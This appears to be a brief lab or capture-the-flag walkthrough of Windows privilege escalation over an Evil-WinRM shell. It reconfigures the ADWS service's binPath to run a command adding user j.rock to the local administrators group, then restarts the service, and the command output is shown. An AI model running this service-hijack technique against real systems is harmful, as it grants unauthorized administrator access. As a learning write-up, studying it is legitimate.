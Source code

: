 <h4>identified groups</h4>

```bash
*Evil-WinRM* PS C:\Users\j.rock\Desktop> whoami / groups
...
```

<h4>checked services</h4>
<p>

- ADWS (Active Directory Web Services) running with privileges
</p>

```bash
*Evil-WinRM* PS C:\Users\j.rock\Desktop> services
...
```

```bash
*Evil-WinRM* PS C:\Windows\ADWS\ icacls C:\Windows\ADWS
...
```

<h4>added j.rock to administrators´</h4>

```bash
PS C:\Users\j.rock\Desktop> sc.exe config adws binPath= "net localgroup administrators j.rock /add"
[SC] ChangeServiceConfig SUCCESS
```

<h4>stopped adws</h4>

```bash
*Evil-WinRM* PS C:\Users\j.rock\Documents> sc.exe stop adws

SERVICE_NAME: adws
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

```

<h4>started adws</h4>

```bash
*Evil-WinRM* PS C:\Users\j.rock\Documents> sc.exe start adws
[SC] StartService FAILED 1053:
```

<h4>queried adws</h4>

```bash
*Evil-WinRM* PS C:\Users\Administrator> sc.exe query adws

SERVICE_NAME: adws
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
```
